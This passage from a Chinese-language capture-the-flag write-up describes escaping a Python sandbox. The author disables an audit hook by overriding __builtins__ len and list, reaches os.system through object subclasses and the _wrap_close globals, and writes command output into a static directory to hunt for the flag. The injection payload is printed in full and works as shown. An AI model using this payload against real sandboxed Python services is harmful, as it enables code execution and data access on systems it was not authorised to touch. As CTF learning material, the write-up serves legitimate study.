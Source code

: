 终于弹出计算器了！getshell。
但是getshell后并非一帆风顺，首先读文件就是一个很大的问题，因为我们发现输出结果全会回显到服务器终端，压根看不到。
因此我们想到把结果写入一个txt文件中，然后一点一点读出来。
```Python
");__builtins__['len']=lambda x:0;__builtins__['list']=lambda x:['builtins.input','builtins.input/result','exec','compile','open','os.system'];a='';cls=a.__getattribute__('__class__');base=cls.__init__(a).__getattribute__('__class__').__getattribute__(cls,'__base__');subs=base.__getattribute__(base,'__subclasses__')();
for c in subs:
    if '_wrap_close' in c.__name__:
        g=c.__init__.__getattribute__('__globals__');
        f=g['system']('ls / > 1.txt');
        f=g['__builtins__']['open']('1.txt').read();
        print('f[0:3]')#
```
突然想到我们都有写入的权限了，为什么不直接创建一个静态目录呢。
```powershell
mkdir static
ls /-la > static/ls.txt
```
![alt text](421d74e93b3b4d8189aedce543864178.png)
看到了一个bash文件和flag文件，用相同的方法把flag读入static/flag.txt，发现一片空白，因此被迫去看看entrypoint.sh。